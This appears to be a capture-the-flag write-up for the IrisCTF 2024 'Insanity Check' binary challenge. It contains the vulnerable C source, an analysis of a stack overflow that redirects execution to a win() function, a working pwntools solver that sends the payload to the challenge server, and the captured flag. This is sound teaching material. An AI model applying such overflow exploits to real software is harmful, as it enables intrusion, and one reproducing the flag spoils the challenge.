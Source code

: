 # Insanity Check [254 Solves]

## Description

![chal.png](img/chal.png)

> I've tried the brand new michael-ld linker on my hello world program. I'm pretty sure it's super safe now.
>
> `nc insanity-check.chal.irisc.tf 10003` `insanity-check.tar.gz`
>
> By: lambda

## Short Solution

Stack Overflow, ret2win

## Solution

### Source Code

```console
$ tar ztf insanity-check.tar.gz
insanity-check/
insanity-check/vuln
insanity-check/vuln.c
```

vuln.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
} 
```

### Basic file checks

```console
$ file vuln
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2d6acffbfd9fd36c0a8089feffe3ce53f3eabba, for GNU/Linux 4.4.0, not stripped

$ checksec vuln
[*] '/root/ctf/IrisCTF2024/binary_exploitation/insanity-check/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x40000000)
```

### Initial Analysis

```console
$ readelf -s vuln | grep win
    23: 000000006d6f632e    18 FUNC    GLOBAL DEFAULT   28 win

$ unhex "000000006d6f632e" | rev | hd
00000000  2e 63 6f 6d 00 00 00 00                           |.com....|
00000008
```

We can occur Stack Overflow by `memcpy` and set stuff to a return value of the main function.
The win function address is `0x000000006d6f632e`, and `.com\0\0\0\0` which is `suffix` variable last 8 bytes is `0x000000006d6f632e`.
Thus, by adjusting the input size to overwrite the return value of the main function to 2e636f6d00000000, we can call the win function.

### Solver

solver.py

```python
from pwn import *

# context.log_level = "DEBUG"
context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./vuln", checksec=False)


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("insanity-check.chal.irisc.tf", 10003)

    elif args.GDB:
        gdbscript = """
        b *main+310
        c
        """
        io = gdb.debug([elf.path], gdbscript=gdbscript)
    else:
        io = elf.process()

    return io


def main():
    payload = b"A" * 56 + b"\n"
    with conn() as io:
        io.send(payload)

        io.interactive("")


if __name__ == "__main__":
    main()
```

```console
$ python3 solver.py REMOTE
[+] Opening connection to insanity-check.chal.irisc.tf on port 10003: Done
[*] Switching to interactive mode
== proof-of-work: disabled ==
irisctf{c0nv3n13nt_symb0l_pl4cem3nt}

[*] Closed connection to insanity-check.chal.irisc.tf port 10003
```

Got the flag.

## Flag

irisctf{c0nv3n13nt_symb0l_pl4cem3nt}
